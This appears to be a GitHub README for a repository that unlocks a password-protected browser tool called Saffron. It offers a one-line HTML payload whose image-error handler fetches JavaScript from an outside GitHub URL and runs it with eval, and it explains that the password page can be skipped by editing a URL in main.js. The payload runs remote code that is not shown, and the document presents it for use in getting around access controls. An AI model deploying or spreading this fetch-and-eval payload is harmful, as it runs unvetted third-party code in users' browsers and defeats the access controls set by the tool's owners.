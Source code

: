 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

# How It Works

### Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but __is easily skipped__ by changing URL in main.js from main.html to index.html - results in easy cracking and poor encryption
